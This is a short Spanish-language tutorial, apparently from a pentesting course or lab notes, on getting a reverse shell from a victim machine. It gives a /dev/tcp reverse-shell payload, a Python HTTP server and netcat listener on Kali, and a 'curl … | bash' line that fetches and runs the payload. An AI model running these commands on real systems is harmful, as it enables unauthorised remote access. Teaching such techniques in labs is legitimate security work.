




**Nota:** En este ejercicio se considera la posibilidad de ejecución de comandos desde la máquina víctima.
1. Lo primero que vamos a hacer es crear un archivo, el cual vamos a compartir con la víctima, donde vamos a ingresar el payload dentro:

sh -i >& /dev/tcp/10.10.10.2/443 0>&1
2. Una vez teniendo el **payload.sh** creado, levantamos un servidor con **Python** desde la **máquina Kali**, con el siguiente comando:
python3 -m http.server 80
3. Ahora debemos poner **a la escucha** la Kali con el comando:
sudo nc -nlvp 443

Acto seguido, vamos a la **máquina víctima** y desde ahí ingresamos al navegador, buscando en la barra de direcciones la IP de nuestra Kali. De esta manera estaríamos accediendo al directorio compartido, y posteriormente el objetivo sería descargar el archivo y ejecutarlo.

4. Otra manera de hacer esto sería usando **curl**, agregando un **pipe |** y posteriormente un **bash**, en caso de poder hacer ejecución remota de comandos, o en local como sería a continuación desde la terminal:
curl http://192.168.68.54/payload.sh | bash

Y si todo sale bien, ya estaríamos obteniendo una **reverse shell** y ya estaríamos dentro de la **máquina objetivo**.

